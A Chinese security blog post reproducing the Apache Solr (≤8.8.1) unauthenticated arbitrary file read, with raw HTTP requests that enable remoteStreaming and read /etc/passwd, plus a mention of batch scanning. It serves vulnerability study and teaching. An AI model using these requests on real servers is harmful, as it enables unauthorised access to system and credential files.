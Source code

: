 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SFC8X7o2kfFASHmLeD3-UQ)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcxRotctQ6trC30PIPRE0ibOia4Iz81C9898tEbINfoo337nSZ9WT6bposJiazmRMcSSIw6LlT0MZk3g/640?wx_fmt=png)

Apache Solr 任意文件读取漏洞复现

一、简介

Solr 是一个独立的企业级搜索应用服务器，它对外提供类似于 Web-service 的 API 接口。用户可以通过 http 请求，向搜索引擎服务器提交一定格式的 XML 文件，生成索引；也可以通过 Http Get 操作提出查找请求，并得到 XML 格式的返回结果。

Apache-Solr 任意文件读取漏洞漏洞，攻击者可以在未授权的情况下读取目标服务器敏感文件和相关内容。

二、影响版本

Apache Solr <= 8.8.1

三、漏洞复现

安装：

```
Solr下载地址：
自行下载对应满足版本
http://archive.apache.org/dist/lucene/solr/
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcxRotctQ6trC30PIPRE0ibOIc3BfVY5kT0P2VRLVMIXX9LJ0BYkNv72uWdwCcRIZYnfFPTIibiatzHA/640?wx_fmt=png)

访问页面

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcxRotctQ6trC30PIPRE0ibOvFfvrBPpGJeqWs8ibxSotTrGPZ3Aljcvx4jmSPYQFXxBY3daHjoppJw/640?wx_fmt=png)

第一步：获取 core 的信息：主要是 name

```
http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcxRotctQ6trC30PIPRE0ibOo7jWsWFgQgURGlvhdlEqLaoUzZQnsTNnp03XzyaPsEUqicHicQyTTWHQ/640?wx_fmt=png)

详细数据包

```
GET /solr/admin/cores?indexInfo=false&wt=json HTTP/1.1
Host: 127.0.0.1:8983
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.67 Safari/537.36 Edg/87.0.664.52
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

第二步：判断是否存在漏洞: 返回 200 并且包含 This response format is experimental.  It is likely to change in the future 可能存在，需要进一步的去读取 / etc/passwd 或者其他进行确认最终是否存在读取漏洞

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcxRotctQ6trC30PIPRE0ibOniaWmgChzgtUvEhOTXqp5dNQe35hiaxuXHt8oojwu6EAXLLbY2JOMrmQ/640?wx_fmt=png)

详细数据包：

```
POST /solr/tesla/config HTTP/1.1
Host: 127.0.0.1:8983
Content-Length: 80
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8983
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://127.0.0.1:8983/solr/tesla/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```

第三步：读取文件 / etc/passwd:  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcxRotctQ6trC30PIPRE0ibOkSywylZM8EqCVMXs7cTbfhByBDrKT2TKbRZ7poJwib2twsxOohY8Gqw/640?wx_fmt=png)

详细数据包：

```
POST /solr/tesla/debug/dump?param=ContentStreams HTTP/1.1
Host: 127.0.0.1:8983
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8983
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://127.0.0.1:8983/solr/tesla/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/passwd
```

编写检测脚本：

显示读取内容：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcxRotctQ6trC30PIPRE0ibOKLx81Uy8DYeK59H9R3MFGmyLQvpOZrgT0kXe3RKqRicxZHmrX0IvyAA/640?wx_fmt=png)

直接跑存在不现实读取内容：  

批量出来效果还是不错的

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcxRotctQ6trC30PIPRE0ibO2ricKTuB0trqmwuw351UYoz59GBvR9EibF9pvibqtl3GQXQYgv4QwdbDA/640?wx_fmt=png)

参考：

https://mp.weixin.qq.com/s/5U04Qhr_KBCznAbXe9jEeg

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)